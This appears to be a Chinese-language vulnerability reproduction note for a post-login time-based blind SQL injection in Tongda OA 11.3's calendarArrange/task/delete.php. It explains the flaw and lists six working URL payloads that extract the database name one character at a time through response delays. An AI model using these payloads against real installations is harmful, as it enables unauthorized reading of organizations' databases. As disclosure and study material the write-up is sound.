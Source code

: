 # 通达 OA 存在 SQL 盲注

## 介绍

通达 OA 11.3 版本存在一个后台 SQL 盲注漏洞,当用户登陆后台后, 可以利用此来读取数据库内容

## 验证

先查看代码 `delete.php` 的代码, 在此处可以看到在程序中直接将 `TASK_ID` 的参数直接带入 SQL 查询, 此时会导致 SQL 注入漏洞的产生

![image-20240120160540288](./assets/image-20240120160540288.png)

我们先发送一个正常请求, 可以看到对应的时间是 158ms

![image-20240120160825486](./assets/image-20240120160825486.png)

随后构造对应的 payload : 

```
/general/calendarArrange/task/delete.php?TASK_ID=select+(substr(DATABASE(),1,1))%3dchar(116)+and+(select+count(*)+from+information_schema.columns+A,information_schema.columns+B)
```

随后发送请求, 我们可以看到这里的时间为 6018 ms

![image-20240120160947137](./assets/image-20240120160947137.png)

此时如果打开 Mysql 的命令日志, 我们可以在日志中看到对应的执行 SQL 语句

![image-20240120161127441](./assets/image-20240120161127441.png)

## 获取数据库的名称

payload 合集

1. 第一个字母 :  t

    ```
    /general/calendarArrange/task/delete.php?TASK_ID=select+(substr(DATABASE(),1,1))%3dchar(116)+and+(select+count(*)+from+information_schema.columns+A,information_schema.columns+B)
    ```

    ![image-20240122181152447](./assets/image-20240122181152447.png)

2. 第二个字母 : d

    ```
    /general/calendarArrange/task/delete.php?TASK_ID=select+(substr(DATABASE(),2,1))%3dchar(100)+and+(select+count(*)+from+information_schema.columns+A,information_schema.columns+B)
    ```

    ![image-20240122181415715](./assets/image-20240122181415715.png)

3. 第三个字母 : _

    ```
    /general/calendarArrange/task/delete.php?TASK_ID=select+(substr(DATABASE(),3,1))%3dchar(95)+and+(select+count(*)+from+information_schema.columns+A,information_schema.columns+B)
    ```

    ![image-20240122181513531](./assets/image-20240122181513531.png)

4. 第四个字母 : 0

    ```
    /general/calendarArrange/task/delete.php?TASK_ID=select+(substr(DATABASE(),4,1))%3dchar(111)+and+(select+count(*)+from+information_schema.columns+A,information_schema.columns+B)
    ```

    ![image-20240122181923222](./assets/image-20240122181923222.png)

5. 第五个字母 : a

    ```
    /general/calendarArrange/task/delete.php?TASK_ID=select+(substr(DATABASE(),5,1))%3dchar(97)+and+(select+count(*)+from+information_schema.columns+A,information_schema.columns+B)
    ```

    ![image-20240122182015577](./assets/image-20240122182015577.png)

6. 第六个字母 : 为空

    ```
    /general/calendarArrange/task/delete.php?TASK_ID=select+(substr(DATABASE(),6,1))%3dchar(32)+and+(select+count(*)+from+information_schema.columns+A,information_schema.columns+B)
    ```

    ![image-20240122182101634](./assets/image-20240122182101634.png)

所以对应的数据库名称为 : `td_oa`

